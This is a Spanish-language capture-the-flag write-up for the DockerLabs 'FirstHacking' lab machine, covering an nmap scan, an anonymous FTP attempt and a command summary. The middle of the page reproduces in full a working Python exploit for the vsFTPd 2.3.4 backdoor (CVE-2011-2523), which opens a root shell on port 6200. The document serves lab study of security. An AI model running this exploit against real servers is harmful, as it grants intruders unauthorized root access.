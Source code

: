 ```yaml
---
title: CTF-DockerLabs-FirstHacking
published: true
---
```


## WriteUps maquina FirstHacking de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] FirstHacking
  -  **Nombre:** FirstHacking
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  - **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh firsthacking.tar
```

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 23:56 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Esta maquina muestra el `puerto 21` abierto que corresponde al servicio `ftp`, es un puerto diferente al resto de maquinas de la categoría _muy fácil_, lo primero que intento es ver si puedo conectarme con el usuario `anonymous`

![FTPFirstHacking.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/FTPFirstHacking.png)

El intento es fallido, sin embargo esto me ha dado la versión del servicio, el cual es: `vsFTPd 2.3.4`, ahora busco un poco de información en Google, quizás pueda encontrar algún exploit, alguna vulnerabilidad para esta versión.

Y en efecto, el segundo resultado me muestra un exploit en: [www.exploit-db.com](https://www.exploit-db.com/) a lo que procedo a chequear y obtengo el siguiente código, identificado con el código: `49757`

```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
            
```

Así que creo mi archivo en python llamado: `49757.py` le doy su permiso de ejecución con: `chmod +x 49757.py` y lo ejecuto sin más para ver que me mostraba.

Y lo primero que me indica es que solo debo indicarle la dirección IP del objetivo:

`49757.py: error: the following arguments are required: host`

Procedo con ello y listo, de todas las maquinas esta fue la más fácil ya que tampoco existe otro usuario y adicional somos root dentro de la maquina.

# pwned

![FirstHackingPWNED.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/FirstHackingPWNED.png)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh vacaciones.tar`
  - `nmap 172.17.0.2`
  - `ftp 172.17.0.2`
  - `python 49757.py 172.17.0.2`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |